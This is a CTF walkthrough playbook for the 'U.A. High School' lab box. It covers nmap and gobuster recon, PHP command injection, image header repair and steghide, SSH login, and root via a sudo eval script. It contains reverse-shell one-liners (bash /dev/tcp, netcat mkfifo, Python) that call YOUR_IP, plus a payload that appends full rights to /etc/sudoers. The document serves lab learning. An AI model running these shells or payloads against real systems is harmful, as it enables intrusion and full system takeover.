


# CTF Command Playbook: U.A. High School

> **A Command-by-Command Learning Reference**  
> *Built from the U.A. High School walkthrough — recon → web exploitation → stego/forensics → privilege escalation*

---

> [!WARNING]
> **AUTHORIZED USE ONLY**: Every command in this playbook is for the CTF/lab machine you are explicitly permitted to test. Replace `TARGET_IP` and `YOUR_IP` with your assigned lab addresses. Running these against systems you do not own or lack written permission to test is illegal.

---

## Contents

1. [How to Use This Playbook](#0--how-to-use-this-playbook)
2. [Phase 1: Reconnaissance — Mapping the Target](#1--reconnaissance--mapping-the-target)
3. [Phase 2: Web Enumeration — Finding Hidden Paths](#2--web-enumeration--finding-hidden-paths)
4. [Phase 3: Initial Access — Command Injection & Reverse Shell](#3--initial-access--command-injection--reverse-shell)
5. [Phase 4: Forensics & Steganography — The Broken Image](#4--forensics--steganography--the-broken-image)
6. [Phase 5: User Access — First Flag](#5--user-access--first-flag)
7. [Phase 6: Privilege Escalation — sudo + eval to Root](#6--privilege-escalation--sudo--eval-to-root)
8. [Phase 7: Root Flag](#7--root-flag)
9. [Master Command Reference (Copy-Paste)](#8--master-command-reference-copy-paste)
10. [Repeatable CTF Methodology](#9--your-repeatable-ctf-methodology)
11. [Lessons Learned](#10--lessons-learned)

---

## 0 — How to Use This Playbook

This document walks the full attack chain of the **U.A. High School** box one phase at a time. For every command you get three things: **what it does**, **why it was the right call at that moment**, and **how to reuse it in your next CTF**.



### Attack Phases Summary

| Phase | Goal | Key Tools Used |
| :--- | :--- | :--- |
| **1. Recon** | Find open ports, services, versions | `nmap` |
| **2. Web Enum** | Find hidden web paths & files | `gobuster` |
| **3. Initial Access** | Get a shell via command injection | Browser, Reverse Shell (`nc` / `bash`) |
| **4. Forensics / Stego** | Repair broken image header, extract hidden data | `file`, `cat`, `hexedit` / `xxd`, `steghide` |
| **5. User Access** | Log in with recovered creds, grab user flag | `ssh` / login, `cat` |
| **6. Privilege Escalation** | Abuse sudo + eval to become root | `sudo -l`, `feedback.sh`, `sudo su` |

---

## 1 — Reconnaissance — Mapping the Target

Recon answers one question before touching anything: *what is actually running on this machine?*

```bash
nmap -A -T4 TARGET_IP
```

### Breakdown

| Flag / Option | Meaning | Why It Matters |
| :--- | :--- | :--- |
| `nmap` | Network Mapper scanner | Industry-standard tool for discovering hosts and services |
| `-A` | Aggressive scan | Enables OS detection, version detection, script scan, traceroute |
| `-T4` | Timing template 4 (fast) | Speeds up scan on reliable lab networks; drop to `-T2` if stealth is needed |
| `TARGET_IP` | Target IP address | Assigned CTF box IP |

### Why We Used It Here
The aggressive scan exposed the web service that became the entry point. It also surfaced SSH host keys (identifying the SSH server itself, not user login credentials).

### Reuse Next Time

| Situation | Command |
| :--- | :--- |
| First look at any box | `nmap -A -T4 TARGET_IP` |
| Scan ALL 65,535 ports (thorough) | `nmap -p- -T4 TARGET_IP` |
| Deep version + default scripts on found ports | `nmap -sC -sV -p22,80,443 TARGET_IP` |
| Fast initial sweep then targeted follow-up | `nmap -F TARGET_IP` then `nmap -A -p<ports> TARGET_IP` |
| Scan UDP ports | `sudo nmap -sU --top-ports 20 TARGET_IP` |

---

## 2 — Web Enumeration — Finding Hidden Paths

A web server rarely links to everything it hosts. Directory brute-forcing requests common names and reveals unlinked areas.

```bash
gobuster dir -u http://TARGET_IP -w /usr/share/wordlists/dirb/common.txt
```

### Breakdown

| Part | Meaning | Why It Matters |
| :--- | :--- | :--- |
| `gobuster` | Directory/file brute-forcer | Written in Go — fast and multi-threaded |
| `dir` | Directory enumeration mode | Brute-forces paths (also supports `dns`, `vhost`, `fuzz`) |
| `-u http://TARGET_IP` | Target URL | Base address appended by wordlist entries |
| `-w .../common.txt` | Wordlist file | Quality of wordlist determines discovered paths |

### Why We Used It Here
Gobuster mapped the site structure and pointed to an `assets` area containing PHP application files and hidden images.

### Reuse Next Time

| Goal | Command / Flag |
| :--- | :--- |
| Standard directory scan | `gobuster dir -u http://TARGET_IP -w <wordlist>` |
| Test file extensions | Add `-x php,txt,html,bak` |
| Bigger wordlist (medium) | `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` |
| Increase threads | Add `-t 50` |
| Filter status codes | Add `-b 403,404` |
| Common Alternatives | `feroxbuster`, `ffuf`, `dirsearch` |

---

## 3 — Initial Access — Command Injection & Reverse Shell

A PHP input on the site passed user data into a system command without sanitizing it. This command injection allowed executing a reverse shell, landing as `www-data`.

### Immediate Verification
```bash
whoami
id
```

| Command | What It Tells You | Why Run It First |
| :--- | :--- | :--- |
| `whoami` | Current username (`www-data`) | Confirms shell execution and privilege level |
| `id` | UID, GID, group memberships | Identifies special group memberships |

### Standard Reverse Shell One-Liners (Listener: `nc -lvnp 4444`)

```bash
# Bash reverse shell
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

# Netcat (mkfifo)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f

# Python 3 reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("YOUR_IP",4444));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
```

#### TTY Upgrade Sequence
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl + Z
stty raw -echo; fg
export TERM=xterm
```

---

## 4 — Forensics & Steganography — The Broken Image

Inside `assets/`, the file `one-for-all.jpg` appeared corrupted. In CTFs, a broken file usually indicates hidden data or damaged magic bytes.

```bash
ls -la
file one-for-all.jpg
cat one-for-all.jpg
```

| Command | What It Does | Why It Was Used |
| :--- | :--- | :--- |
| `ls -la` | Lists all files including hidden | Spot file sizes and unusual permissions |
| `file one-for-all.jpg` | Inspects magic bytes signature | Proved file was not a valid JPEG |
| `cat one-for-all.jpg` | Dumps raw bytes | Revealed PNG-related chunks in `.jpg` container |

### Essential File Signatures (Magic Bytes)

| Format | Hex Signature (First Bytes) | ASCII Representation |
| :--- | :--- | :--- |
| **PNG** | `89 50 4E 47 0D 0A 1A 0A` | `.PNG....` |
| **JPEG** | `FF D8 FF` | `ÿØÿ` |
| **GIF** | `47 49 46 38` | `GIF8` |
| **PDF** | `25 50 44 46` | `%PDF` |
| **ZIP / Office** | `50 4B 03 04` | `PK..` |

### Header Repair & Steganography Extraction

```bash
# Inspect header bytes
xxd one-for-all.jpg | head

# Fix signature in hex editor (hexedit, ghex, bless)
# Or read metadata & carve
exiftool one-for-all.jpg
binwalk -e one-for-all.jpg
```

Recovered password/key from extracted file:
```bash
cat users.txt
# Recovered key:
# all might forever
```

Extract hidden data using steghide:
```bash
steghide extract -sf image.png
```

---

## 5 — User Access — First Flag

With recovered credentials for the user `deku`, connect via SSH:

```bash
ssh deku@TARGET_IP
whoami
id
cat user.txt
```

| Command | Purpose |
| :--- | :--- |
| `ssh deku@TARGET_IP` | Stable authenticated remote shell |
| `whoami` / `id` | Confirm escalation to user `deku` |
| `cat user.txt` | Read the user flag |

---

## 6 — Privilege Escalation — sudo + eval to Root

### Step 1: Enumerate Sudo Rights
```bash
sudo -l
```
Output:
```bash
deku ALL=(ALL) NOPASSWD: /opt/NewComponent/feedback.sh
```

### Step 2: Analyze Vulnerable Script
The script `/opt/NewComponent/feedback.sh` prompted for input, applied a character blacklist, and passed input to `eval`:
```bash
read feedback
eval "echo $feedback"
```

> [!CAUTION]
> **Vulnerability Root Cause**: `eval` reparses strings as executable shell code. Blacklists are easily bypassed (e.g. `$()`, backticks, newlines, pipes). Because the script runs with `sudo NOPASSWD`, any evaluated payload runs as `root`.

### Step 3: Exploit & Escalate
Inject command to append full sudo permissions to `/etc/sudoers`:
```bash
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

Spawn root shell:
```bash
sudo su
whoami    # root
```

---

## 7 — Root Flag

```bash
cd /root
ls -la
cat /root/root.txt
```

---

## 8 — Master Command Reference (Copy-Paste)

| # | Command | Phase / Purpose |
| :-: | :--- | :--- |
| **1** | `nmap -A -T4 TARGET_IP` | Recon — services & versions |
| **2** | `gobuster dir -u http://TARGET_IP -w /usr/share/wordlists/dirb/common.txt` | Web enum — hidden paths |
| **3** | `whoami ; id` | Confirm shell & privileges |
| **4** | `ls -la` | List files including hidden |
| **5** | `file one-for-all.jpg` | Check true file type |
| **6** | `cat one-for-all.jpg` | Inspect raw bytes |
| **7** | `cat users.txt` | Read extracted key |
| **8** | `sudo -l` | Enumerate sudo rights |
| **9** | `sudo su` | Root shell after privesc |
| **10** | `cat /root/root.txt` | Read root flag |

---

## 9 — Your Repeatable CTF Methodology



---

## 10 — Lessons Learned

- **File extensions are labels, not proof**: Verify true MIME types with `file` and magic bytes.
- **SSH host keys are not user keys**: Recognize server host keys vs user login keys.
- **Directory enumeration is essential**: Uncovers unlinked scripts, backdoors, and uploads.
- **`eval` with untrusted input is critical**: Never pass user-influenced strings into interpreters.
- **`sudo -l` is the highest ROI first check**: Always test sudo rules immediately upon shell acquisition.
